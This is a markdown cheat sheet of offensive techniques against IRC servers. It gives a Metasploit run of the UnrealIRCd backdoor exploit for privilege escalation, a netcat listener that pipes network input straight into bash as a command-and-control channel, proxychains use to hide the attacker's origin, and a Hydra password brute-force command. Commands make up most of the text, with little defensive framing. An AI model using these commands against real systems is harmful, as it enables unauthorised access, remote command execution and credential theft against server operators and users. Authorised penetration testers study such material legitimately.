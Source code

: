 ## Privilege Escalation

### Operator Privilege Escalation
- **Tool:** [[Metasploit]]
    ```bash
    use exploit/multi/irc/unreal_ircd_3281_backdoor
    set RHOST <target_ip>
    run
    ```
- **Description:** Exploits known IRC vulnerabilities to escalate privileges to an IRC operator.

## Lateral Movement, Pivoting, and Tunneling

### Tunneling IRC Over SSH
- **Tool:** [[SSH]]
	```bash
	ssh -L 6667:<server_ip>:6667 <user>@<ssh_server>
	```
- **Description:** Secure IRC communication by tunneling it over SSH.

### Using IRC as a Command and Control (C2) Channel
- **Tool:** [[IRC]]
    ```bash
    nc -l -p 6667 | bash
    ```
- **Description:** Sets up an IRC bot or script to relay commands across the network, enabling lateral movement.

## Defense Evasion

### Cloaking Using Proxies
- **Tool:** [[Proxychains]]
    ```bash
    proxychains irssi -c irc.example.com -p 6667
    ```
- **Description:** Connects to IRC through multiple proxies to hide the attacker’s origin.

# Exploits and Attacks

## Password Attacks

### Password Brute Force
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra irc://<target_ip> -s 6667 -l <username> -P <password_list>
    ```
- **Description:** Test a single username against multiple passwords.
